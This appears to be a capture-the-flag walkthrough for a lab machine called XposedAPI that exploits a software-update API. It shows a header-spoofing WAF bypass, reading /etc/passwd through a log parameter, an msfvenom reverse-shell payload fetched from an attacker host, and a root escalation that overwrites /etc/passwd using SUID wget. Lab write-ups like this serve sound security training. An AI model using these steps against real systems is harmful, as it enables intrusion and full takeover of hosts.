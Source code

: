 # XposedAPI

### Enumeration

```
...
13337/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
...
```

> /logs
>
> Methods: GET
>
> /update
>
> Methods: POST
>
> Updates the app using a linux executable. Content-Type: application/json {"user":"", "url":""}
>
> /restart
>
> Methods: GET

```
POST /update HTTP/1.1
...
Content-Type: application/json
Content-Length: 48

{"user":"test", "url":"http://192.168.49.60/"}

Response:
Invalid username.
```

We need a valid username.

```
GET /logs HTTP/1.1

Response:
WAF: Access Denied for this Host.
```

**Added to request header ->** `X-Forwarded-For: 127.0.0.1`

```
GET /logs HTTP/1.1
...
X-Forwarded-For: 127.0.0.1

Response:
Error! No file specified. Use file=/path/to/log/file to access log files.
```

```
GET /logs?file=/etc/passwd HTTP/1.1
...
X-Forwarded-For: 127.0.0.1

Response:
root:x:0:0:root:/root:/bin/bash
...
clumsyadmin:x:1000:1000::/home/clumsyadmin:/bin/sh
```

### Initial Access

```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.60 LPORT=80 -f elf -o reverse.elf
```

```
POST /update HTTP/1.1
...
Content-Type: application/json

{"user":"clumsyadmin", "url":"http://192.168.49.60/shell.sh"}

Response:
Update requested by clumsyadmin. Restart the software for changes to take effect.
```

```
GET /restart HTTP/1.1
POST /restart HTTP/1.1
...
{"confirm":"true"}
```

### PrivEsc

```
clumsyadmin@xposedapi:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/wget
```

Copy contents of /etc/passwd to your host as passwd.

Add this user with this command:

```
echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> passwd
```

**ch:pass123**

```
clumsyadmin@xposedapi:/$ wget http://192.168.49.60/passwd -O /etc/passwd

clumsyadmin@xposedapi:/$ su ch
password:pass123
```
